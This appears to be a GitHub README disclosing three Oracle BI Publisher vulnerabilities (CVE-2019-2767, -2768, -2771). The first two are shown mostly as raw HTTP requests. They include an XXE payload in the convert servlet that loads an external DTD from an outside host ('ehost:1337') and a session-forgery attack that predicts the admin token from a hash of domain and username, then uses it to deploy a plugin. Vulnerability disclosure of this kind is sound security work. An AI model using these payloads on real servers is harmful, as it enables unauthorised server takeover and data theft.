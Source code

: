 # Oracle-BI-bugs

## CVE-2019-2767
 * Subject: XXE IN CONVERT SERVLET
 * CVSSv3.0 Base Score: 7.2
 * CVSS Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:L/I:L/A:N
 
```
GET /xmlpserver/convert?xml=<%3fxml+version%3d"1.0"+%3f><!DOCTYPE+r+[<!ELEMENT+r+ANY+><!ENTITY+%25+sp+SYSTEM+"http%3a//ehost%3a1337/ev.xml">%25sp%3b%25param1%3b]>&_xf=Excel&_xl=123&template=123 HTTP/1.1
Host: host
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:62.0) Gecko/20100101 Firefox/62.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflat
Connection: close
Upgrade-Insecure-Requests: 1
```

## CVE-2019-2768
 * Subject: ACCESS TO ADMIN SERVICES, SESSION GENERATION ERROR
 * CVSSv3.0 Base Score: 7.5
 * CVSS Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
 
Oracle BI has xmlpserver which uses an administrator to configure the server. To use xmlpserver services, the administrator needs to create a session using createSession function.
```
POST /xmlpserver/services/XMLPService HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.204.179:9502/xmlpserver/services
Connection: close
Upgrade-Insecure-Requests: 1
SOAPAction: 
Content-Type: text/xml;charset=UTF-8
Host: 192.168.204.179:9502
Content-Length: 610

<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:rep="http://xmlns.oracle.com/oxp/service/report">
   <soapenv:Header/>
   <soapenv:Body>
      <rep:createSession soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
         <username xsi:type="xsd:string">weblogic</username>
         <password xsi:type="xsd:string">asdQWE123</password>
         <domain xsi:type="xsd:string">bi</domain>
      </rep:createSession>
   </soapenv:Body>
</soapenv:Envelope>

```
I tried to generate a session a few time and I got the same value in the response. I changed the password and but again I got 
```
<v2:sessionToken>-1626402211</v2:sessionToken>
```
```java
private String createCallerSession(final XDOPrincipal user, final String domain) {
        Logger.log("XMLPService.createCallerSession...if here things are looking ok", 1);
        final String token = tokenize(domain, user.getName());
        final XDOPrincipal principal = TokenHolder.getPrincipal(token);
        if (principal == null) {
            final XDOPrincipal guser = (XDOPrincipal)GlobalUser.get();
            TokenHolder.addPrincipal(token, guser);
        }
        return token;
    }
    
    private static String tokenize(final String domain, final String username) {
        final StringBuffer sb = new StringBuffer();
        if (domain != null) {
            sb.append(domain);
        }
        sb.append(':').append(username);
        final int key = sb.toString().hashCode();
        return new Integer(key).toString();
    }
```
WHAT? Is the session consists of two public datas (username and server ID)? I tried to write a simple code here what I got
![web](https://github.com/vah13/Oracle-BI-bugs/blob/master/img/hash.png)


Example of plugin deploy request
```
POST /xmlpserver/services/v2/PluginService HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.204.179:9502/xmlpserver/services
Upgrade-Insecure-Requests: 1
SOAPAction: 
Content-Type: text/xml;charset=UTF-8
Host: 192.168.204.179:9502
Content-Length: 431

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:v2="http://xmlns.oracle.com/oxp/service/v2">
   <soapenv:Header/>
   <soapenv:Body>
      <v2:deploy>
         <v2:sessionToken>-1626402211</v2:sessionToken>
         <v2:appPath>0</v2:appPath>
         <v2:pluginName>1</v2:pluginName>
         <v2:uploadedData>2</v2:uploadedData>
      </v2:deploy>
   </soapenv:Body>
</soapenv:Envelope>
```
so, as a result, you can take control of a server if you know 2 public data of server.


## CVE-2019-2771
 * Subject: BIP BYPASS FONT UPLOAD
 * CVSSv3.0 Base Score: 8.2
 * CVSS Vector: CVSS:3.0/AV:N/AC:L/PR:L/UI:R/S:C/C:L/I:H/A:L
 
![web](https://github.com/vah13/Oracle-BI-bugs/blob/master/img/f1.png)

![upload](https://github.com/vah13/Oracle-BI-bugs/blob/master/img/f2.png)

![write file](https://github.com/vah13/Oracle-BI-bugs/blob/master/img/f3.png)

![file on the system](https://github.com/vah13/Oracle-BI-bugs/blob/master/img/f4.png)
